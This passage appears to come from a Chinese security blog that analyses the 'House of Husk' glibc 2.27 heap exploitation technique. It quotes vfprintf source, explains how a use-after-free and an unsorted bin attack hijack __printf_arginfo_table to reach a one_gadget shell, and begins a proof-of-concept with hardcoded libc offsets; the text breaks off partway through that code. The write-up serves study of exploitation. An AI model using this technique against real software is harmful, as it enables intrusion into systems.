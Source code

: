 此外，在vfprintf函数中如果检测到我们注册的table不为空，则对于格式化字符不走默认的输出函数而是调用`printf_positional`函数，进而可以调用到表中的函数指针。

至此，两个调用链的分析就完成了，我们再来结合poc分析一下今天要谈论的攻击方式是如何和printf结合的。

```
//glibc-2.27/vfprintf.c:1335
/* Use the slow path in case any printf handler is registered.  */
  if (__glibc_unlikely (__printf_function_table != NULL
            || __printf_modifier_table != NULL
            || __printf_va_arg_table != NULL))
    goto do_positional;

  /* Hand off processing for positional parameters.  */

do_positional:
  if (__glibc_unlikely (workstart != NULL))
    `{`
      free (workstart);
      workstart = NULL;
    `}`
  done = printf_positional (s, format, readonly_format, ap, &amp;ap_save,
                done, nspecs_done, lead_str_end, work_buffer,
                save_errno, grouping, thousands_sep);
```



## poc分析

这里使用的poc就直接用攻击发现者提供的源代码，运行环境为`ubuntu 18.04/glibc 2.27`，编译命令为`gcc ./poc.c -g -fPIE -no-pie -o poc`(关闭pie方便调试)。

代码模拟了UAF漏洞，先分配一个超过fastbin的块，释放之后会进入`unsorted bin`。预先分配两个chunk，第一个用来伪造`__printf_function_table`，第二个用来伪造`__printf_arginfo_table`。将`__printf_arginfo_table['X']`处的函数指针改为`one_gadget`。

使用`unsorted bin attack`改写`global_max_fast`为`main_arena+88`从而使得释放的所有块都按fastbin处理(都是超过large bin大小的堆块不会进tcache)。

在这里有一个很重要的知识就是fastbin的堆块地址会存放在main_arena中，从`main_arena+8`开始存放`fastbin[0x20]`的头指针，一直往后推，由于平时的fastbin默认阈值为`0x80`，所以在glibc-2.23的环境下最多存放到main_arena+0x48，现在我们将阈值改为`0x7f*`导致几乎所有sz的chunk都被当做fastbin，其地址会从main_arena+8开始，根据sz不同往libc覆写堆地址。如此一来，只要我们计算好`__printf_arginfo_table`和`main_arena`的地址偏移，进而得到合适的`sz`，就可以在之后释放这个伪造table的chunk时覆写`__printf_arginfo_table`为`heap_addr`。这种利用方式在`*CTF2019-&gt;heap_master`的题解中我曾经使用过，详情可以参见[Star CTF heap_master的1.2.4.3](https://ama2in9.top/2020/01/02/heap_master/)。

有了上述知识铺垫，整个攻击流程就比较清晰了，总结一下，先UAF改global_max_fast为main_arena+88，之后释放合适sz的块到fastbin，从而覆写`__printf_arginfo_table`表为heap地址，`heap['X']`被覆写为了one_gadget，在调用这个函数指针时即可get shell。

```
/**
 * This is a Proof-of-Concept for House of Husk
 * This PoC is supposed to be run with libc-2.27.
 */
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

#define offset2size(ofs) ((ofs) * 2 - 0x10)
#define MAIN_ARENA       0x3ebc40
#define MAIN_ARENA_DELTA 0x60
#define GLOBAL_MAX_FAST  0x3ed940
#define PRINTF_FUNCTABLE 0x3f0658
#define PRINTF_ARGINFO   0x3ec870
#define ONE_GADGET       0x10a38c

int main (void)
`{`
  unsigned long libc_base;
  char *a[10];
  setbuf(stdout, NULL); // make printf quiet
```